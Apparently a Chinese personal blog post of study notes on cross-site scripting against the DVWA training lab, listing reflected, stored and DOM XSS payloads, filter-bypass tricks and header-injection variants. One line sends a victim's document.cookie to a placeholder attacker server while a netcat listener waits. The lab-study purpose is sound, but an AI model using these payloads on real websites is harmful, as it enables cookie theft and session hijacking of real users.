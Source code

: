 ```yaml
---
layout: post
title: XSS跨站脚本攻击
subtitle: Cross Site Scripting
date: 2023-08-05 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: false
---
```

## 1. XSS(Reflected)

```html
<!--直接填-->
<script>alert(document.cookie)</script>
<script>confirm(document.cookie)</script>
<!--补全闭合标签-->
"><script>alert(document.cookie)</script>
<!--闭合添加事件-->
" onclick="alert(document.cookie)
<!--htmlspecialchars 使用单引号闭合-->
' onclick='alert(document.cookie)
<!--使用a标签-->
javascript:alert(document.cookie)
"><a href="javascript:alert(document.cookie)"/>
<!-- 6 大写-->
"><a HREF="javascript:alert(document.cookie)"/>
<!-- 7 双写-->
"><SSCRIPTCRIPT>alert(document.cookie)</SSCRIPTCRIPT>
<!-- 8 Unicode编码 javascript:alert(document.cookie)-->
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41
<!-- 9 unicode编码 注释 http:\\ -->
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;&#59/*http://*/
<!-- 10 补全 替换type -->
t_sort="onclick="alert(123)" type="
<!-- 11 改referer 需要bp拦截包改 -->
Referer: "onclick="alert(123)" type="
<!-- 12 bp改UA -->
User-Agent: "onclick="alert(123)" type="
<!-- 13 bp改Cookie -->
Cookie: user="onclick="alert(123)" type="
<!-- 15 文件包含-->
'level1.php?name=<img src=1 onerror=alert(123)>'
<!-- 16 %0a替换空格 不用"/"-->
><img%0asrc=1%0aonerror=alert(123)><!--
```

10、
![image.png](https://img.ghostliner.top/7UnT6A.png)

### 1.1. LOW

```html
#获取Cookie
<script>alert('document.cookie')</script>
#访问攻击者服务器
<iframe src='http://ip/time.jpg'></iframe>
#向攻击者服务器发送cookie
#nc -nvlp 80
<script>new Image().src="http://ip/a.php?output="+document.cookie;</script>
```

### 1.2. MEDIUM

利用大小写，组合过滤条件绕过

```html
<Script>
<scr<script>ipt>
<body onload=alert('')>
<a href=javascript:alert(123)>123</a>
<img src="" onerror="alert(document.cookie)"/>
```

### 1.3. HIGH

```php
$name=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i','',$_GET['name']);
```

无法使用\<script>但可以使用其他标签

```html
<a href=%23 onclick=alert(123)>123</a>
```

## 2. XSS(Stored)

### 2.1. LOW

后台源码：

trim(string,charlist)：移除string字符两侧的预定义字符，预定义字符包括\t 、 \n 、\x0B 、\r以及空格，可选参数charlist支持添加额外需要删除的字符

stripslashes(string)：去除掉string字符的反斜杠＼

mysqli_real_escape_string(string,connection)：函数会对字符串string中的特殊符号（\x00，\n，\r，\，‘，“，\x1a）进行转义。

$GLOBALS：引用全局作用域中可用的全部变量。

### 2.2. MEDIUM

```
htmlspecialchars()
//将标签转为普通字符
```

name为注入点

### 2.3. HIGH

name为注入点

## 3. XSS(DOM)

### 3.1. LOW

url注入

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```

### 3.2. MEDIUM

```
></option></select><img src=1 onerror="alert(document.cookie)"/>
default=French</option><h1>123</h1><!-- #h1标签消失猜测未闭合select-->
default=French</option></select><a href=javascript:alert(123)>123</a><!--
```

### 3.3. HIGH

服务器对default设置了白名单，攻击代码用#注释不上传到服务器

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=English #<script>alert(document.cookie)</script>
```
